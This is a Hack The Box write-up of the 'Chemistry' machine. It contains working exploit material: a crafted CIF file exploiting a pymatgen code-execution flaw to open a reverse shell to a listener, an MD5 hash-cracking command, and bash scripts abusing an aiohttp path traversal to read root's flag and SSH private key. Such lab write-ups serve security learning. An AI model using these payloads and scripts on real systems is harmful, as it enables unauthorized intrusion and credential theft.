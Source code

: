 ```yaml
---
title: Chemistry - HTB
date: 2025-03-03 11:37:57 +0530
categories: [HTB, Linux]
tags: [htb,linux,easy]
---
```


## Overview
Chemistry is an easy machine from Hack The Box which focuses on File Upload, Password Cracking and Privilege Escalation, all of which are based on publicly available exploits.

---
- **IP:** 10.10.11.38
- **OS:** Linux
- **Difficulty:** Easy
- **Link:** [Chemistry - Hack The Box](https://app.hackthebox.com/machines/Chemistry)
- **Tools Used:** nmap, rustscan, netcat, pwncat, sqlite3, DB Browser for SQLite, hashcat

---
## Enumeration
### Port Scan
The Enumeration process begins with Port Scan using RustScan. The command used is as follows - `rustscan --range=1-65535 -a chemistry.htb -- -A -sC -sV`
The key takeaways from the port scan are:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.3 (Python 3.9.5)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
```
It is evident that http running on port 5000 should be the target.

### Website
The website on port 5000 has two options - Login and Register.
![Home Page](/assets/images/chemistry01.png){: w="700" h="400" }

A dashboard is presented upon the registration of a new user at http://chemistry.htb:5000/dashboard .
![Dashboard](/assets/images/chemistry02.png){: w="700" h="400" }

A File Upload functionality is observed on the dashboard, and takes files of *.cif* extension (Crystallographic Information File). A sample file is available and can be downloaded from the link in the web page.

---
## Exploitation
### Initial Foothold
A publicly available Arbitrary Code Execution vulnerability for *pymatgen* library was discovered after googling for "cif vulnerabilities" at this [link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). A payload was crafted based on the PoC is present in the article:
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<listener_ip>/<listener_port> 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
**Note:** Please change the &lt;listener_ip&gt; and &lt;listener_port&gt; according to your environment.
The payload was made with the help of https://www.revshells.com/ .

A listener was set on the attacking machine using `pwncat -nvl <listener_port>`.
The file is uploaded upon which the web page presents two options for the file - View and Delete. The file gets parsed and the payload gets executed when clicked on "View".
![Upload Page](/assets/images/chemistry03.png){: w="700" h="400" }

Successful Reverse Shell
![Reverse Shell](/assets/images/chemistry04.png){: w="700" h="400" }

### User Flag
Since an initial foothold is obtained with the user *app*, the next step is to examine notable files within the **/home/app** directory. Analyzing the contents reveals two interesting files, **app.py**, and **database.db** file in the **/home/app/instance** folder. Both of these files can be copied to the attacking machine by starting a Python HTTP Server on the target using `python3 -m http.server 9099`. The files are transferred by running `wget http://chemistry.htb:9099/app.py` and `wget http://chemistry.htb:9099/instance/database.db` on the attacking machine.

**app.py** file is the Flask app that is running the Web Application on port 5000. The credentials for the database are available in **app.py** .
![Flask Credentials](/assets/images/chemistry05.png){: w="700" h="400" }

The **app.py** also mentions the type of the hashing algorithm used to store the passwords, which is md5 in this case.  
![Flask Passowrd](/assets/images/chemistry06.png){: w="700" h="400" }

The **database.db** file is viewed with *DB Browser for SQLite* or `sqlite3`` command line tool.
The password for one of the users can be cracked using `hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`, where **hashes.txt** contains all the md5 hashes from the database file separated by new-line.
One of the cracked password is used to logon to ssh and obtain the user flag.

---
## Privilege Escalation
LinPEAS is downloaded and run as the non-root user to check for Privilege Escalation paths. The LinPEAS output indicates an open localhost port 8080.
![Active Ports](/assets/images/chemistry07.png){: w="700" h="400" }

By connecting to this port from the target machine using `curl -vv http://127.0.0.1:8080`, it is observed that a Python server running *aiohttp version 3.9.1* is active.
![AIOHTTP](/assets/images/chemistry08.png){: w="700" h="400" }

A search for "aiohttp 3.9 vulnerabilities" led to the discovery of an exploit for a Path Traversal Vulnerability [here](https://github.com/z3rObyte/CVE-2024-23334-PoC). Analyzing the output from the previous `curl` command revealed that stylesheets and JavaScript files were being loaded from the *assets* directory. The proof-of-concept (PoC) exploit was then modified accordingly to read the root flag file, and upon execution, it successfully retrieved the root flag.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

### Bonus
The private key of the *root* user can also be obtained in a similar manner.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

This key can be copied and stored in a file with the permissions `-rw-------` (600) and can be used to logon as *root* user on the target using `ssh root@chemistry.htb -i <root.key>`.

---
## References
- [Pymatgen CIF exploit](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [AIOHTTP Path Traversal Exploit](https://github.com/z3rObyte/CVE-2024-23334-PoC)
- [Reverse Shell Generator](https://www.revshells.com/ )

---